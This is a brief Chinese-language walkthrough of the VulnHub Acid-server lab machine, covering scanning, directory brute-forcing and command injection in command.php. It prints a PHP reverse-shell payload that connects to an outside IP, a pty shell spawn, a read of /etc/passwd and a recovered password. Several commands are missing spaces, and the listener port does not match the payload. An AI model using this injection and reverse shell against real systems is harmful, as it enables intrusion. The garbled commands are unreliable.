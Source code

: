 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
- Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
- Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
- Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port
`$ nc -l 3333`
用php反彈shell成功，最後payload:
`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`
## Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell
`$ python -c 'import pty;pty.spawn("/bin/bash")'`
## Step 5
查找用戶，發現三個可疑帳號acid、saman、root
`$ cat/etc/passwd`
嘗試找尋用戶的可疑文件
`$ find-useracid2>/dev/null`
發現pcapng可疑流量檔案，下載回本地查看
## Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
## Step 7
利用find找到flag.txt，成功！
